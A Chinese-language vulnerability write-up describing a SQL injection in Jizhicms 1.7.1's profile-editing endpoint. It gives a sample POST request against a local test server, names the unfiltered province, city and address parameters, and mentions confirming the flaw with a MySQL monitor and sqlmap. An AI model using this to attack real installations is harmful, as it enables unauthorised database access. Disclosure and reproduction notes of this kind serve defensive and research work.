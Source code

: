 Jizhicms 1.7.1 ./user/userinfo.html sql注入漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

在更改个人资料处

    POST /user/userinfo.html HTTP/1.1
    Host: 127.0.0.1:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 138
    Origin: http://127.0.0.1:8091
    Connection: close
    Referer: http://127.0.0.1:8091/user/userinfo.html
    Cookie: PHPSESSID=84mcpgsvrgnfag0fnl3ngjm2eo
    Upgrade-Insecure-Requests: 1

    litpic=&file=&username=test&tel=&email=1%401.com&sex=0&province=&city=&address=&password=&repassword=&signature=&submit=%E6%8F%90%E4%BA%A4

在userinfo函数中可以看到只对tel ,pass sex
repass等参数进行了过滤，并不涉及province city
address等地址，意味着可以随意拼接sql语句触发 sql注入漏洞![1.png](./.resource/Jizhicms1.7.1._user_userinfo.htmlsql注入漏洞/media/rId24.png)![2.png](./.resource/Jizhicms1.7.1._user_userinfo.htmlsql注入漏洞/media/rId25.png)通过mysql监控工具可以看到已经带入查询，触发了sql注入漏洞![3.png](./.resource/Jizhicms1.7.1._user_userinfo.htmlsql注入漏洞/media/rId26.png)通过sqlmap跑一下![4.png](./.resource/Jizhicms1.7.1._user_userinfo.htmlsql注入漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7861\#toc-2
